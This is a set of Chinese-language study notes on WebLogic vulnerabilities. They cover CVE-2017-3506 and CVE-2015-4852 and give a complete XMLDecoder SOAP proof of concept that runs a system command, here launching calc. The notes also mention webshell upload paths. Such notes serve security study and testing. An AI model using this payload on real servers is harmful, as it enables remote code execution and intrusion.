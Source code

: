 ```yaml
---
title: WebLogic
categories:
- Network_Security
- Web
- Middleware
- WebLogic
tags:
- Network_Security
---
```

# WebLogic 中间件漏洞

## 1. CVE-2017-3506 XMLDecoder 反序列化漏洞（版本：12.1.3.0）

### 1.1 参考文献

1. 主要可以参考下面两篇：

    > https://blog.csdn.net/he_and/article/details/90582262
    >
    > https://zhuanlan.zhihu.com/p/32301092
    >
    > https://www.freebuf.com/articles/web/272835.html

### 1.2 补充

1. 通过 POST 发包，虽然页面会报错，但是结果依旧可以正常执行：
    ![image-20230518143539966](image-20230518143539966.png)

2. 弹出计算机的 PoC：
    ```xml
    <soapenv:Envelope
        xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">
        <soapenv:Header>
            <work:WorkContext
                xmlns:work="http://bea.com/2004/06/soap/workarea/">
                <java>
                    <object class="java.lang.ProcessBuilder">
                        <array class="java.lang.String" length="3">
                            <void index="0">
                                <string>cmd</string>
                            </void>
                            <void index="1">
                                <string>/c</string>
                            </void>
                            <void index="2">
                                <string>calc</string>
                            </void>
                        </array>
                        <void method="start"/>
                    </object>
                </java>
            </work:WorkContext>
        </soapenv:Header>
        <soapenv:Body/>
    </soapenv:Envelope>
    ```

    注意缩进，可以使用 xml 格式工具进行格式规则化。

3. 写马的话，它需要文件路径：
    ![image-20230518145602040](image-20230518145602040.png)
    这个路径不知道怎么获得，如果能获得的话就能写入。写入之后通过访问：
    `/bea_wls_internal/马`即可。

4. 根据不同的版本，它的路径可能不同。如果是 10 版本，可能是 `/wls-wsat/`

## 2. CVE-2017-10271 和 CVE-2019-2725 todo

## 3. CVE-2015-4852 反序列化漏洞

### 3.1 参考

1. 链接如下：

    > https://bleke.top/posts/754158022/

2. 有关 T3 协议的：

    > https://www.cnblogs.com/nice0e3/p/14201884.html

### 3.2 补充

1. 本质上用的就是 CC1 链。应该是通过 t3 协议，将链发送到 7001 端口然后触发链。

